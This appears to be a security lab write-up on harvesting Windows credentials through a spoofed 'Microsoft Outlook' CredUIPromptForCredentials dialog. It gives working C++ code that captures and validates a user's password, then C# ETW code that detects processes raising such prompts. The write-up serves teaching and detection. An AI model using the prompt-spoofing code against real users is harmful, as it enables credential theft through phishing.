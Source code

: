 # Credentials Collection via CredUIPromptForCredentials

## Purpose

The purpose of this lab is to twofold:

1. write some code that invokes Windows credential prompt, that would allow malware or an attacker to collect targeted user's credentials once they are on the compromised machine
2. write some ETW code that detects processes invoking credential prompts

## Stealing User Credentials

It is possible to collect user credentials with the below code:

{% code title="credentialsprompt.cpp" %}
```cpp
#include <iostream>
#include <Windows.h>
#include <wincred.h>

#pragma comment(lib, "Credui.lib")

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
    CREDUI_INFO ci = { sizeof(ci) };
    std::wstring promptCaption = L"Microsoft Outlook";
    std::wstring promptMessage = L"Connecting to spotless@offense.local";
    ci.pszCaptionText = (PCWSTR)promptCaption.c_str();
    ci.pszMessageText = (PCWSTR)promptMessage.c_str();

    WCHAR username[255] = {};
    WCHAR password[255] = {};
    DWORD result = 0;

    result = CredUIPromptForCredentialsW(&ci, L".", NULL, 5, username, 255, password, 255, FALSE, CREDUI_FLAGS_GENERIC_CREDENTIALS);
    if (result == ERROR_SUCCESS)
    {
        HANDLE newToken = NULL;
        BOOL credentialsValid = FALSE;

        credentialsValid = LogonUserW(username, NULL, password, LOGON32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &newToken);
        if (credentialsValid)
        {
            // valid credentials provided
        }
        else
        {
            // invalid credentials provided
        }
    }
    else if (result == ERROR_CANCELLED)
    {
        // no credentials provided
    }

    return 0;
}
```
{% endcode %}

{% hint style="warning" %}
Although in this lab I am using `CredUIPromptForCredentials` for invoking credentials prompt, you should be using [`CredUIPromptForWindowsCredentials`](https://docs.microsoft.com/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa)
{% endhint %}

If we compile and run the above code, we get a credential prompt, that captures user's credentials in plain text, which we could then save to a file or send out over the internet:

![](../../.gitbook/assets/image%20%28629%29.png)

{% hint style="info" %}
The above credential prompt can also be invoked with PowerShell cmdlet `Get-Credential`.
{% endhint %}

## Detecting Credential Prompts

As a defender, one may want to know what processes are popping these credential prompts, so that malicious ones could be detected - i.e if you are notified that suddenly some unusual process showed a prompt, it may mean that the process is infected and the machine is compromised.

Detection of programs showing credential prompts is possible with [Event Tracing for Windows \(EWT\)](../../miscellaneous-reversing-forensics/windows-kernel-internals/etw-event-tracing-for-windows-101.md#terminology) - Microsoft-Windows-CredUI provider to the rescue:

![](../../.gitbook/assets/image%20%28680%29.png)

Looking at the provider Microsoft-Windows-CredUI in ETWExplorer, we can see that it can provide consumers with events for both `CredUIPromptForCredentials` and `CredUIPromptForWindowsCredentials` invokations:

![](../../.gitbook/assets/image%20%28697%29.png)

We can create an ETW tracing session and subscribe to events from Microsoft-Windows-CredUI provider with C\# like so:

{% code title="credentialsprompt-detection.cs" %}
```csharp
# based on https://github.com/zodiacon/DotNextSP2019/blob/master/SimpleConsumer/Program.cs
using Microsoft.Diagnostics.Tracing.Session;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace SimpleConsumer
{
    static class Programa
    {
        static void Main(string[] args)
        {
            using (var session = new TraceEventSession("spotless-credential-prompt"))
            {
                Console.CancelKeyPress += delegate {
                    session.Source.StopProcessing();
                    session.Dispose();
                };

                session.EnableProvider("Microsoft-Windows-CredUI", Microsoft.Diagnostics.Tracing.TraceEventLevel.Always);
                var parser = session.Source.Dynamic;
                parser.All += e => {
                    if (e.OpcodeName == "Start")
                    {
                        Console.WriteLine($"{e.TimeStamp} > Credential Prompt detected in {Process.GetProcessById(e.ProcessID).ProcessName}.exe (PID={e.ProcessID})");
                    }
                };
                session.Source.Process();
            }
        }
    }
}
```
{% endcode %}

## Demo

Below shows RogueCredentialsPrompt.exe and Powershell.exe invoking Windows credential prompts and our simple consumer program detecting that activity:

![](../../.gitbook/assets/creduipromptforcredentials-detection.gif)

## References

{% embed url="https://ired.team/miscellaneous-reversing-forensics/etw-event-tracing-for-windows-101" caption="" %}

{% embed url="https://github.com/zodiacon/DotNextSP2019/" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-creduipromptforcredentialsa" caption="" %}

